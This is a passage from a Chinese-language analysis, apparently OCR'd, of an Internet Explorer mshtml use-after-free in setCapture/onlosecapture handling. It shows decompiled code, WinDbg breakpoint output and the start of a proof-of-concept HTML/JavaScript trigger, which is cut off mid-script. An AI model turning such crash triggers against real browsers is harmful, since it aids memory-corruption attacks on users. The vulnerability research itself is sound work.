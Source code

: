 ```
            {
                *(v14 + 3) = v17 | 2;
                *(v8 + 469) |= 0x1000u;
                CElement::FireEvent(*(v14 + 2), &s_propdescCElementonlosecapture, 1, 0, -1, 0, 0);
                *(v8 + 469) &= 0xFFFFEFFF;
            }
        }
    }
    if (*(v8 + 65) & 0xFFFFFFFC)
    {
        if (v14 == CDoc::GetLastCapture(v8))
        {
            CElementCapture::~CElementCapture(v20);
            CBlockElement::operator delete(v14);
            CImplPtrAry::Delete(v21, v23);
        }
        CImplPtrAry::Append(v20, v23);
    }
    else
    {
        CElementCapture::~CElementCapture(v16);
        CBlockElement::operator delete(lpMema);
        v19 = v18;
    }
    CMessage::~CMessage(v19);
}
else
{
    CImplPtrAry::Append(v13, v23);
    if (!v14)
        CServer::SetCapture(v22, v8, 1);
}
```

当执行`id_1.setCapture()`时，会进入`if`分支，此时结合之前的崩溃函数调用栈，要先进入到`CDoc::PumpMessage()`，先在入口下个断点
```
bu mshtml!CDoc::PumpMessage
```

击中后的调试信息如下
```
0:005> g
Breakpoint 8 hit
eax=041ac0b8 ebx=05943680 ecx=05943680 edx=00000002 esi=07d40ff0 edi=00000000
eip=6350244e esp=041ac098 ebp=041ac150 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
mshtml!CDoc::PumpMessage:
6350244e 8bff            mov     edi,edi
```

我们单步走下去，发现跑飞了，所以继续修改Poc，重新打断点看流程
```
<html>
<script>
function trigger()
{
    Math.sin(0);
    var id_0 = document.createElement("sup");
    var id_1 = document.createElement("audio");
    document.body.appendChild(id_0);
    document.body.appendChild(id_1);
    id_1.applyElement(id_0);
    id_0.onlosecapture = function(e) {
        Math.cos(0);
        document.write("");
```